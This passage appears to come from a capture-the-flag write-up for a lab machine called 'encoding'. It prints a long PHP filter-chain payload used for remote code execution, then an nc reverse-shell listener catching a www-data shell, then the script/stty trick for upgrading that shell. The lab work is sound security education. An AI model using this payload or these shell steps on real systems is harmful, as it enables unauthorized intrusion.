 nv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp



I'll replace the filters in Repeater, and start `nc` listening. On
sending, I get a shell as www-data:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.198 35760
    bash: cannot set terminal process group (800): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@encoding:~/image/actions$



I'll upgrade the shell with the [script / stty
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    www-data@encoding:~/image/actions$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    sh: 0: getcwd() failed: No such file or directory
    shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
    www-data@encoding:$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@encoding:$ 
